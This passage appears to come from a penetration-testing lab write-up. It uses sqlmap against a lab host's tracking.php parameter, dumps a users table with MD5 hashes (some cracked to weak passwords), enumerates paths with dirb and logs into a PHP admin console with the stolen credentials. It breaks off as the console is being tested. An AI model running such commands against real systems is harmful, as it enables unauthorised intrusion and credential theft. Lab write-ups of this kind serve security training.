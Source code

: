 Ok, let's sqlmap this now  
  
```bash
$ sqlmap -u http://172.16.64.92/72ab311dcbfaa40ca0739f5daf505494/tracking.php?id=1 --users
```

<br/><br/>
SQL Injection vulnerability is officially confirmed, let's dump the tables.  
<br/><br/>
  
```bash
─(root💀kali)-[~]
└─# sqlmap -u http://172.16.64.92/72ab311dcbfaa40ca0739f5daf505494/tracking.php?id=1 –dump -D footracking -T users


[4 entries]
+----+-----+-------------------------------------------+-----------+
| id | adm | password                                  | username  |
+----+-----+-------------------------------------------+-----------+
| 1  | yes | c5d71f305bb017a66c5fa7fd66535b84          | fcadmin1  |
| 2  | yes | 14d69ee186f8d9bbeddd4da31559ce0f          | fcadmin2  |
| 3  | yes | 827ccb0eea8a706c4c34a16891f84e7b (12345)  | tracking1 |
| 4  | no  | e10adc3949ba59abbe56e057f20f883e (123456) | tracking2 |
+----+-----+-------------------------------------------+-----------+
```
<img src="/assets/images/13.png" height="100%" width="100%">

<br/><br/>
Ok, so we got user/password combinations, let's enumerate with dirb to find hidden urls for http://172.16.64.92/72ab311dcbfaa40ca0739f5daf505494
<br/><br/>
```bash
(root💀kali)-[~]
└─# dirb http://172.16.64.92/72ab311dcbfaa40ca0739f5daf505494 
```
<br/><br/>

  
It show's a /login path on the server. We dump the credentials here. And it works. We're in the Admin console :)  
  
The URL is http://172.16.64.92/72ab311dcbfaa40ca0739f5daf505494/panel.php so it's a php console. We can verify by typing phpinfo(); into the panel:  
